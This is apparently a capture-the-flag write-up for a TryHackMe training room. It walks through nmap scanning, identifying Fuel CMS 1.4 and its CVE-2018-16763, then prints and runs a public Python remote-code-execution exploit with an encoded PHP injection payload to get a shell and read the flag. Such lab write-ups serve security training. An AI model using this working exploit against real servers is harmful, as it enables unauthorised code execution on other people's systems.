

# Vulnerability Capstone

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
Tags: Linux, Web
Subscription type: Premium
Description:
Apply the knowledge gained throughout the Vulnerability Module in this challenge room.
```

Room link: [https://tryhackme.com/room/vulnerabilitycapstone](https://tryhackme.com/room/vulnerabilitycapstone)

## Solution

### Task 1: Introduction

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module.

Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public.

It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.

### Task 2: Exploit the Machine (Flag Submission)

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is **recommended** that you use the TryHackMe AttackBox to complete this room.

Allow **five minutes** to pass before attempting to attack the vulnerable machine **10.66.170.161**

#### What is the name of the application running on the vulnerable machine?

We start by scanning the machine with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ export TARGET_IP=10.66.136.176

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ sudo nmap -sV -sC $TARGET_IP  
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 14:29 CET
Nmap scan report for 10.66.136.176
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:a1:60:43:1f:14:1f:d6:6c:b5:c9:f7:b7:2d:30:6d (RSA)
|   256 f7:73:e0:04:37:7c:c0:d0:d6:f5:30:d7:75:9b:42:79 (ECDSA)
|_  256 39:69:97:ea:7a:90:23:79:64:e4:c7:b9:b8:78:8e:55 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.65 seconds
```

We have two services running and available:

- OpenSSH 8.2p1 running on port 22
- Apache httpd 2.4.18 running on port 80

Manually browse to the Apache web server `http://10.66.136.176/` shows us the application is `Fuel CMS 1.4`:



Answer: `Fuel CMS`

#### What is the version number of this application?

Answer: `1.4`

#### What is the number of the CVE that allows an attacker to remotely execute code on this application?

Format: CVE-XXXX-XXXXX

Googling for `Fuel CMS 1.4 remote code execution` gives us:

- [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)

Answer: `CVE-2018-16763`

Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ searchsploit fuel cms 1.4   
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                                 | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                                 | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                                                 | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                                                | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                                       | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                                           | php/webapps/48778.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ searchsploit -m 47138    
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/Wargames/TryHackMe/Challenges/Easy/Vulnerability_Capstone/47138.py

```

Check the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ cat 47138.py                             
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]   
```

Update the IP and port

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ vi 47138.py 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ cat 47138.py | grep url
import urllib
url = "http://10.66.136.176:80"
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        r = requests.get(burp0_url, proxies=proxy)
```

The exploit uses a proxy on port 8080, so start Burp and make sure it doesn't Intercept requests.

Now we run the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ python 47138.py                       
  File "/mnt/hgfs/Wargames/TryHackMe/Challenges/Easy/Vulnerability_Capstone/47138.py", line 34
        print r.text[0:dup]
        ^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Vulnerability_Capstone]
└─$ python2 47138.py
cmd:id
system
<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<!--- Lines removed for readability --->

</div>uid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<!--- Lines removed for readability --->

</div>
cmd:
```

We are running as `www-data`.

#### What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine

```bash
cmd:cd /home/ubuntu;ls
system
<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<!--- Lines removed for readability --->

</div>flag.txt

<!--- Lines removed for readability --->

</div>
cmd:cat /home/ubuntu/flag.txt
system
<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<!--- Lines removed for readability --->

</div>THM{<REDACTED>}

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<!--- Lines removed for readability --->

</div>
cmd:
```

Answer: `THM{<REDACTED>}`

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Nmap - Wikipedia](https://en.wikipedia.org/wiki/Nmap)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
